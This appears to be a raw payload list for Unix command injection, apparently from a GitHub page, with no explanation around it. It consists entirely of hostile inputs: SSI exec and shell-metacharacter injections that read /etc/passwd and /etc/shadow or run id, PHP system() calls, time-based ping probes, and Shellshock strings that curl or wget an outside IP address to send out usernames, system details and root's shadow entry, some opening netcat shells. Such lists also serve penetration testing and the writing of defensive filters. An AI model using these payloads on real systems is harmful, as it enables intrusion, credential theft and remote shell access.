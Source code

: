 Unix :
<pre>
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=5"
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=4"
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
%0Acat%20/etc/passwd
&#123;&#123; get_user_file(&quot;/etc/passwd&quot;) &#125;&#125;
&lt; !--#exec cmd="/bin/cat /etc/passwd"--&gt;
&lt; !--#exec cmd="/bin/cat /etc/shadow"--&gt;
&lt; !--#exec cmd="/usr/bin/id;"--&gt;
system('cat /etc/passwd');
&lt;?php system(&quot;cat /etc/passwd&quot;);?&gt;
</pre>

